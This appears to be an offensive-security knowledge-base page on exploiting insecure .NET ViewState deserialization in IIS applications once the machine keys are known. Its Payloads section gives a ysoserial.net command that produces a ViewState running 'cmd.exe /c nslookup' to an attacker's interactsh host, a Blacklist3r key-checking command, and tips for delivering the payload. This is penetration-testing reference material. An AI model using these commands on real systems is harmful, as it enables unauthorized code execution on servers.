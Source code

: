 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# .NET Insecure Viewstate Deserialization

## Key Takeaway

>>>
* If you ever get the IIS validation key, and the application uses viewstate at all, you can get code execution
* Much of the time with IIS, **arbitrary file read = RCE**
* It's always worth using Blacklist3r to try and decrypt the viewstate to see if known keys are in use
>>>

## Summary

#### Background

.NET applications have something called the **viewstate**. The idea is to add some "state" to what is fundamentally a stateless protocol. Most applications maintain state primarily on the server, whereas .NET splits the responsibility between the client and server - and the client portion is the viewstate. This helps preserve various values on the page as requests go back and forth.

The viewstate is self is a serialized object. This means, by definition, it must be deserialized by the server. This functionality was created prior to much of the current understanding of the security threat deserialization can pose. To prevent tampering with the viewstate, including the ability to send a malicious deserialization payload, the viewstate is **signed** with  a MAC (message authentication code) to protect integrity, and can also be **encrypted** to protect the contents of the viewstate. 

There was a time when it was possible to disable both the MAC and encryption, and have a completely unprotected viewstate. Once deserialzation attacks became mainstream, this became a security nightmare and microsoft was forced to override these settings. As of Sept 2014, it is no longer possible to disable the viewstate MAC. 

*Actually, it is technically possible, but you have to go out of your way and change obscure registry keys or turn on on obscure options that make it very clear you are doing something incredibly dangerous*

Despite this, the key used to sign the viewstate is (in MANY, but not all IIS configurations) stored within the web.config file - typically located in the root of the web application. **It may also be stored in machine.config within the .NET framework isntallation directory.** 

**This means that if you gain access to this key, say from an arbitrary file read, you will have code execution.** 

*If the viewstate is also encrypted (it usually is), you will also need the encryption key. This is almost never a problem since the validation key and encryption key are stored together.*

Ysoserial.net contains a viewstate plugin that can simplify the process of creating a malicious viewstate if you have the keys.

#### Blacklist3r

Another approach to finding the encryption/validation key is abusing known keys. Some frameworks have been known to ship with pre-installed keys, the project Blacklist3r is an attempt to catalog them and make abusing them easy. Checking a viewstate against blacklist3r is a quick step that might result in a big win.

## Resources
* **Exploiting Deserialization in ASP.NET view ViewState** - [https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/](https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/)
* **Notsosecure - overview of ysoserial.net and blacklist3r viewstate exploitation** - [https://notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net/](https://notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net/)

* **Farewell, EnableViewStateMac** - Microsofts annoucement that they were forcing viewstate MAC's to be enabled - [https://devblogs.microsoft.com/aspnet/farewell-enableviewstatemac/](https://devblogs.microsoft.com/aspnet/farewell-enableviewstatemac/)

## Tools

* **Ysoserial.net** - [https://github.com/pwntester/ysoserial.net](https://github.com/pwntester/ysoserial.net)
* **Blacklist3r** - [https://github.com/NotSoSecure/Blacklist3r](https://github.com/NotSoSecure/Blacklist3r)

## Payloads

#### ysoserial.net

The following is an example of using the ysoserial.net binary to generate a payload with known encryption/validation keys:

```
ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "cmd.exe /c nslookup <your-interactsh-server>"  --decryptionalg="AES" --generator=ABABABAB decryptionkey="<decryption key>"  --validationalg="SHA1" --validationkey="<validation key>"
```

Once you have generated this blob, you need to find a place in the application that is **reading the viewstate**. Some applications will read the viewstate on every request, others will only do some on specific requests. In almost all cases, this will be a POST request - although there are apps where adding the GET parameter "__VIEWSTATE" will work too. Your best bet is to find a page that is naturally setting the viewstate, as this is a strong indication that is actively using it. 

**Don't forget to URL encode it!** This is a common gotcha. You dont need to URL encode everything. Just highlight it in burp, right click and select "URL encode key characters". 

#### Blacklist3r

An example of using blacklist3r to identify when known machine keys are in use:

```
AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata /wEPDwUKLTkyMTY0MDUxMg9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkbdrqZ4p5EfFa9GPqKfSQRGANwLs= --purpose=viewstate  --valalgo=sha1 --decalgo=aes --modifier=CA0B0334 --macdecode --legacy
```
